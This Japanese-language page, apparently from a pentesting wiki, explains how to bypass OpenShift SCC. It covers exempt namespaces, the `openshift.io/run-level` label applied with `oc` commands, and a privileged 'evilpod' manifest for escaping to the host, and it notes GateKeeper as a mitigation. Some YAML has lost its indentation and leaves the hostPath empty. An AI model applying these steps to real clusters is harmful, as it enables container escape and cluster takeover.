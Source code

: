 # Openshift - SCC バイパス

**このページの元の著者は** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## 特権名前空間

デフォルトでは、SCCは以下のプロジェクトには適用されません：

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

これらの名前空間のいずれかにポッドをデプロイすると、SCCは強制されず、特権ポッドのデプロイやホストファイルシステムのマウントが可能になります。

## 名前空間ラベル

RedHatのドキュメントによると、ポッド上でSCCの適用を無効にする方法があります。以下のいずれかの権限を持っている必要があります：

- 名前空間を作成し、この名前空間にポッドを作成する
- 名前空間を編集し、この名前空間にポッドを作成する
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
特定のラベル `openshift.io/run-level` は、ユーザーがアプリケーションのためにSCCを回避することを可能にします。RedHatのドキュメントによると、このラベルが使用されると、その名前空間内のすべてのポッドに対してSCCが適用されず、実質的に制限が解除されます。

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## ラベルの追加

名前空間にラベルを追加するには：
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
YAMLファイルを通じてラベルを持つ名前空間を作成するには：
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
今、名前空間で作成されたすべての新しいポッドにはSCCがないはずです。

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCCがない場合、ポッド定義に制限はありません。これは、悪意のあるポッドがホストシステムに逃げるために簡単に作成できることを意味します。
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
今では、ホストシステムへの特権昇格が容易になり、その結果、クラスタ全体を掌握し、「cluster-admin」権限を取得することができます。次のページの**Node-Post Exploitation**部分を探してください：

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### カスタムラベル

さらに、ターゲットのセットアップに基づいて、前の攻撃シナリオと同様にカスタムラベル/アノテーションが使用される場合があります。作成されていなくても、ラベルは特定のリソースに対して権限を付与したり、制限したりするために使用される可能性があります。

いくつかのリソースを読むことができる場合は、カスタムラベルを探してみてください。以下は興味深いリソースのリストです：

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 特権のあるすべてのネームスペースをリストする
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## 高度なエクスプロイト

OpenShiftでは、前述のように、`openshift.io/run-level`ラベルを持つ名前空間にポッドをデプロイする権限があると、クラスターの簡単な乗っ取りにつながる可能性があります。クラスター設定の観点から、この機能は**無効にできません**。これはOpenShiftの設計に固有のものです。

しかし、**Open Policy Agent GateKeeper**のような緩和策は、ユーザーがこのラベルを設定するのを防ぐことができます。

GateKeeperのルールを回避し、このラベルを設定してクラスターの乗っ取りを実行するには、**攻撃者は代替手段を特定する必要があります。**

## 参考文献

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
